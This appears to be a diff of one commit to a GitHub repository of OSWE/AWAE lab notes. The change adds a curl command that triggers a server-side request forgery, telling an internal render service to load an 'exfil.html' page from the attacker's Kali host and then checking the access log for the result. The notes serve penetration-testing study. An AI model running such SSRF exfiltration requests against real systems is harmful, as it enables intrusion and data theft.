

Before and after one commit to m0hammad-yaser/OSWE-AWAE-Notes, a Markdown page: apigateway/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/apigateway/README.md
+++ b/apigateway/README.md
@@ -659,7 +659,15 @@ function exfiltrate() {
 </body>
 </html>
 ```
-After triggering the SSRF, we got the response to our kali machine
+After triggering the SSRF
+```bash
+┌──(kali㉿kali)-[~]
+└─$ curl -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://192.168.45.203/exfil.html"}' http://apigateway:8000/files/import
+{"errors":[{"message":"You don't have permission to access this.","extensions":{"code":"FORBIDDEN"}}]}
+┌──(kali㉿kali)-[~]
+└─$
+```
+We got the response to our kali machine
 ```log
 ┌──(kali㉿kali)-[/var/www/html]
 └─$ tail -f /var/log/apache2/access.log
````
